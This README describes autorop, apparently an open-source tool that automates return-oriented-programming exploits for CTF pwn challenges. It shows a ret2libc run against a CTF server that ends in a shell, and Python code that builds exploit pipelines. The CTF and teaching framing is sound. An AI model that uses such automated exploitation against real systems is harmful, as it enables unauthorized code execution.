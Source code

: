 autorop
=======

|docs| |Test status| |MIT license|

Automated solver of classic CTF pwn challenges, with flexibility in mind.

Official documentation can be found at `autorop.readthedocs.io <https://autorop.readthedocs.io>`_.

Disclaimer
----------

Do not use this software for illegal purposes. This software is intended to be used in legal Capture the Flag competitions only.

Command line
------------

.. code-block:: text

    $ autorop
    Usage: autorop BINARY [HOST PORT]

.. code-block:: text

    $ autorop tests/bamboofox/ret2libc bamboofox.cs.nctu.edu.tw 11002
    [*] '/home/mariusz/Projects/autorop/tests/bamboofox/ret2libc'
        Arch:     i386-32-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x8048000)
    [*] Produced pipeline: Classic(Corefile(), OpenTarget(), Puts(False, ['__libc_start_main', 'puts']), Auto(), SystemBinSh())
    [*] Pipeline [1/5]: Corefile()
    [+] Starting local process 'tests/bamboofox/ret2libc': pid 18833
    [*] Process 'tests/bamboofox/ret2libc' stopped with exit code -11 (SIGSEGV) (pid 18833)
    ...
    [*] Switching to interactive mode
    Hello!
    The address of "/bin/sh" is 0x804a02c
    The address of function "puts" is 0xf7e43da0
    $ wc -c /home/ctf/flag
    57 /home/ctf/flag


API
---

Importing autorop automatically does a ``from pwn import *``, so you can use all of `pwntools' goodies <https://docs.pwntools.com/en/latest/>`_.

Central to autorop's design is the `pipeline <https://en.wikipedia.org/wiki/Pipeline_(software)>`_. Most functions take in a ``PwnState``, and pass it on to the next function with some attributes changed. ``Pipeline`` copies\* the ``PwnState`` between each function so mutations are safe. This allows great simplicity and flexibility.

See how the below example neatly manages to "downgrade" the problem from something unique, to something generic that the ``Classic`` pipeline can handle.

.. code-block:: python

    from autorop import *

    BIN = "./tests/tjctf_2020/stop"


    def send_letter_first(tube, data):
        # the binary expects us to choose a letter first, before it takes input unsafely
        tube.sendline("A")
        # send actual payload
        tube.sendline(data)

    # create a starting state
    s = PwnState(BIN, lambda: process(BIN))
    # set an overwriter function, if the buffer overflow input
    # is not available immediately
    s.overwriter = send_letter_first

    # use base classic pipeline, with printf for leaking
    pipeline = turnkey.Classic(leak=leak.Printf())
    result = pipeline(s)

    # switch to interactive shell which we got via the exploit
    result.target.interactive()

\* **Note**: Although most of the attributes are deep-copied, ``target`` and ``_elf`` are not.

.. |docs| image:: https://readthedocs.org/projects/autorop/badge/
    :target: https://autorop.readthedocs.io

.. |Test status| image:: https://github.com/mariuszskon/autorop/workflows/autorop%20test/badge.svg?branch=master
    :target: https://github.com/mariuszskon/autorop/actions?query=workflow%3A%22autorop+test%22+branch%3Amaster

.. |MIT license| image:: https://img.shields.io/badge/license-MIT-blue.svg
    :target: https://github.com/mariuszskon/autorop/blob/master/LICENSE

Install
-------

1. Install autorop itself. You might want to be in your `python virtual environment <https://docs.python.org/3/tutorial/venv.html>`_. After cloning, install with pip:

.. code-block:: text

    $ git clone https://github.com/mariuszskon/autorop && cd autorop && pip install .

2. Make sure corefiles are enabled and are plainly written to the right directory:

.. code-block:: text

    # sysctl -w kernel.core_pattern=core.%p

3. (Optional) Install `libc-database <https://github.com/niklasb/libc-database>`_ into ``~/.libc-database`` (or your own location then edit ``state.libc_database_path``).

4. All done!
